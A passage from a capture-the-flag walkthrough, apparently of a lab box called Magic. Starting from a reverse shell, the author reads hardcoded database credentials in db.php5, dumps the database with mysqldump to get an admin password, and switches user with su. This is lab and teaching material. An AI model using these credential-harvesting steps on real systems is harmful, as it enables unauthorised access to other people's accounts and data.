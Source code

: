www-data@ubuntu:/var/www/Magic/images/uploads$
```
# User Flag
After some searching I found a stored credintiols in ```db.php5```

```
www-data@ubuntu:/var/www/Magic$ ls
ls
assets  db.php5  images  index.php  login.php  logout.php  upload.php
www-data@ubuntu:/var/www/Magic$ cat db.php5 
cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }
}
```
Now let's use mysqldump to get thessus password:

```
www-data@ubuntu:/var/www/Magic$ mysqldump -utheseus -piamkingtheseus -A
```

And part of the result is this: ``` INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng'); ```

We can't use ssh to login. the only way to login is by using a key-based authentication. so let's switch to it from our reverse shell.

```
www-data@ubuntu:/var/www/Magic$ su theseus
su theseus
Password: Th3s3usW4sK1ng
